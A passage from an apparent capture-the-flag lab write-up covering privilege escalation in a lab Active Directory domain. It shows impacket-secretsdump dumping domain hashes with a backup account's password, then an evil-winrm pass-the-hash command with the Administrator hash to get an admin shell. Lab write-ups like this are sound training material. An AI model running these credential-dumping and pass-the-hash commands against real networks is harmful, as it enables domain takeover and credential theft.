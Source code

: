 - I got the credentials for the `backup` user.
## Privilege Escalation

The backup user in a domain controller has special permissions which allow all changes in the domain to be synced with this user account. So, I could dump all secrets of all users on the domain that are synced with the backup user using impacket's secretsdump script. This script finds all secrets from the `ntds.dit` file. All information related to objects in the domain are stored in this file which is the primary database file within AD DS.

```sh
> impacket-secretsdump -target-ip 10.10.162.18 spookysec.local/backup:backup2517860@10.10.162.18
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
...
```

Running the script, I got all the secrets of all the users on the domain, among which was the NTLM hash of the `Administrator` user. Using the hash, I could easily execute a "pass-the-hash" attack using Evil-WinRM to get the admin shell:

```sh
> evil-winrm -i 10.10.162.18 -u Administrator -H '0e0363213e37b94221497260b0bcb4fc'
```

The final task of this room was to find the flags of the three users that I came across - `svc-admin`, `backup`, `Administrator`. The flags were in the Deskop of each user.
